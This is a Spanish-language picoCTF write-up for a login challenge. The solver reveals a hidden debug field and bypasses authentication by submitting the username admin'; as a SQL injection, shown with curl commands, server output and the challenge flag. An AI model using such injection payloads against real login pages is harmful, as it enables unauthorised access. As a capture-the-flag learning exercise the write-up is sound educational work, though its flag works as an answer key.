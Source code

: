## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

Hint
- The password is being filtered.
## Solucion
Utilizamos el inspector para mostrar el campo oculto.
```html
<input type="show" name="debug" value="1">
```
Obtenemos la como se hace la consulta sql.
```sql 
username: admin
password: 
SQL query: SELECT * FROM users WHERE name='admin' AND password=''
```
Hacemos una inyeccion que se veria de esta manera.
```sql
username: admin';
password: 
SQL query: SELECT * FROM users WHERE name='admin';' AND password=''
```
Y obtenmos la bandera.
Your flag is: picoCTF{m0R3_SQL_plz_fa983901}
## Solucion 2.
```bash
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin&passsword=h&debug=1"
<pre>username: admin
password:
SQL query: SELECT * FROM users WHERE name='admin' AND password=''
</pre><h1>Login failed.</h1>
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin';&passsword=h&debug=1"
<pre>username: admin';
password:
SQL query: SELECT * FROM users WHERE name='admin';' AND password=''
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$

```
## Notas adicionales
## Referencias